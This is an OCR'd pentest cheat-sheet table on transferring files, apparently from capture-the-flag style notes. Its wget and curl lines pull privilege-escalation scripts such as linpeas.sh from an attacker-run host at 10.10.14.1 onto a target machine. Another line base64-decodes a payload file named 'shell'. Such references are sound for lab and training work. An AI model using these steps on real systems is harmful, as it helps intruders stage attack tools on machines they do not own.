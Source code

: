 
## **Transferring Files**

|**Command**|**Description**|
|---|---|
|python3 -m http.server 8000|Start a local HTTP server (serve current dir)|
|wget http://10.10.14.1:8000/linpeas.sh|Download file on remote from your local machine|
|curl http://10.10.14.1:8000/linenum.sh -o linenum.sh|Download a file on remote machine|
|scp linenum.sh user@remotehost:/tmp/linenum.sh|Transfer file to remote via scp (requires SSH)|
|base64 shell -w 0|Convert file to base64 (one-line)|
|`echo f0VMR…SNIO…InmDwU|base64 -d > shell`|
|md5sum shell|Check md5sum to verify integrity|

---
